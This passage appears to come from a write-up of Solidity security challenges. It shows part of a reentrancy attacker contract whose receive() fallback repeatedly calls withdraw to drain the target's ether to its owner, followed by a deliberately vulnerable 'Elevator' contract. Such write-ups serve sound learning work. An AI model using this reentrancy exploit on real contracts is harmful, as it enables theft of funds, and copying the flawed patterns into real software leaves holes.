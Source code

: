 ```solidity
    Reentrance reentrace;
    address payable public owner;
    uint256 value;
    bool private attacking;
    
    constructor(address payable reentraceInstance) payable public {
        reentrace = Reentrance(reentraceInstance);
        owner = msg.sender;
        value = msg.value;
        reentrace.donate{value: msg.value}(address(this));
    }
    
    function withdraw() public {
        owner.transfer(address(this).balance);
    }
    
    function startAttack() public {
        reentrace.withdraw(value);
    }
    
    receive() external payable {
        if (!attacking) {
            attacking = true;
            while (address(reentrace).balance >= value) {
                reentrace.withdraw(value);
            }
            reentrace.withdraw(address(reentrace).balance);
            attacking = false;
        }
    }
}
```

---

# <a name="elevator"></a> 11. Elevator
\[[top](#top)\]

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
